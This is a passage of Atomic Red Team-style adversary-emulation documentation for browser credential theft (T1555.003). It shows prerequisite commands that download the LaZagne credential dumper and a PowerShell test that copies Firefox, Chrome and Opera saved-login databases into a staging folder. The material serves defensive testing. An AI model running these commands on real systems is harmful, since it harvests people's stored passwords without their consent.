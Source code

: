 

#### Dependencies:  Run with `sh`!
##### Description: Get Lazagne from Github and install requirements
##### Check Prereq Commands:
```sh
test -f #{lazagne_path}/laZagne.py
```
##### Get Prereq Commands:
```sh
cd /tmp; git clone https://github.com/AlessandroZ/LaZagne; cd /tmp/LaZagne/; pip install -r requirements.txt
```
##### Description: Needs git, python3 and some pip stuff
##### Check Prereq Commands:
```sh
which git && which python3 && which pip
```
##### Get Prereq Commands:
```sh
apt install git; apt install python3-pip -y; pip install pyasn1 psutil Crypto
```




<br/>
<br/>

## Atomic Test #10 - Stage Popular Credential Files for Exfiltration
This test is designed to search a drive for credential files used by the most common web browsers on Windows (Firefox, Chrome, Opera, and Edge), export the found files to a folder, and zip it,
simulating how an adversary might stage sensitive credential files for exfiltration in order to conduct offline password extraction with tools like [firepwd.py](https://github.com/lclevy/firepwd) or [HackBrowserData](https://github.com/moonD4rk/HackBrowserData).

**Supported Platforms:** Windows


**auto_generated_guid:** f543635c-1705-42c3-b180-efd6dc6e7ee7






#### Attack Commands: Run with `powershell`! 


```powershell
$exfil_folder = "$env:temp\T1555.003"
if (test-path "$exfil_folder") {} else {new-item -path "$env:temp" -Name "T1555.003" -ItemType "directory" -force}
$FirefoxCredsLocation = get-childitem -path "$env:appdata\Mozilla\Firefox\Profiles\*.default-release\"
if (test-path "$FirefoxCredsLocation\key4.db") {copy-item "$FirefoxCredsLocation\key4.db" -destination "$exfil_folder\T1555.003Firefox_key4.db"} else {}
if (test-path "$FirefoxCredsLocation\logins.json") {copy-item "$FirefoxCredsLocation\logins.json" -destination "$exfil_folder\T1555.003Firefox_logins.json"} else {}
if (test-path "$env:localappdata\Google\Chrome\User Data\Default\Login Data") {copy-item "$env:localappdata\Google\Chrome\User Data\Default\Login Data" -destination "$exfil_folder\T1555.003Chrome_Login Data"} else {}
if (test-path "$env:localappdata\Google\Chrome\User Data\Default\Login Data For Account") {copy-item "$env:localappdata\Google\Chrome\User Data\Default\Login Data For Account" -destination "$exfil_folder\T1555.003Chrome_Login Data For Account"} else {}
if (test-path "$env:appdata\Opera Software\Opera Stable\Login Data") {copy-item "$env:appdata\Opera Software\Opera Stable\Login Data" -destination "$exfil_folder\T1555.003Opera_Login Data"} else {}
```